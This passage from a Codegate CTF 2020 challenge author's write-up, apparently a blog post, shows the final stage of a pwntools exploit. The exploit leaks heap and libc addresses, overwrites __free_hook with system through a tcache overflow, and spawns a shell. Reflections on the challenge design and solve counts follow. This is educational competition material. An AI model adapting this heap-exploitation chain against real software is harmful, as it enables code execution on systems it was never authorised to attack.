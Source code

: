 ```python
    log.info("HEAP: 0x%x"%HEAP)

    # leak a libc address
    load(aar_pyc(HEAP + 0x5648213fc3f0 - 0x5648214146e0, HEAP))
    disassemble(1)
    p.recvuntil("LOAD_CONST              ")
    # plugin_free
    LIBC = u64(p.recvline().strip(b"\n").ljust(8,b"\x00")) + 0x7f97c9d56000 - 0x7f97ca98557a

    log.info("LIBC: 0x%x"%LIBC)
    free_hook = LIBC + libc.symbols[b'__free_hook']
    system = LIBC + libc.symbols[b'system']

    load(exp1(HEAP, free_hook))
    # create a layout like unsorted bin -- tcache (0x110)
    load(feng1())
    disassemble(2)

    # overflowing will cause tcache entry to be corrupted, next-next malloc to 0x100 will cause __free_hook to be allocated
    load(exp2(p64(system)))

    # free hook is now overwritten to system. execute any shell command
    load("/bin/sh\x00")
    p.interactive()
```

# Overall
I think a few teams successfully worked out the first and second usages of the bug. However, the last usage wasn't found by any team. (this is my guess, but maybe someone could've been very close to solving the challenge) I think it's because the notion that a heap overflow occurs in the disassembly generation phase is very counter-intuitive, as printing a state usually doesn't have critical side effects in most programs. I myself took some time to find the third usage and thought of reverting the first bug. (a single null byte overflow) However, I think it was a good decision not to implant that bug, because it's so shitty to craft an exploit for a single null byte overflow where allocation and deallocation takes place so often. 

BTW, thanks for everyone who participated in codegate CTF 2020. I decided to publish a write-up for babyllvm after the write-up submissions are done. Also, I wish to see writeups for solved challenges, so that I can know if I made a mistake or there is a better solution other than the intended one. 

Babyllvm got 40 solves, and marshal got no solves. But I'm pretty sure that if we ran the CTF for 48 hours, marshal would get > 10 solves.

![Scoreboard](/assets/img/codegate2020scoreboard.jpg)

And one important thing: I'm planning to make a pull request to radare2-extras as soon as possible. if you found a bug other than the one I mentioned, please make a pull request for that as well. 

For those who are participating in the final: I will prepare even more fun tasks for the final, be ready!
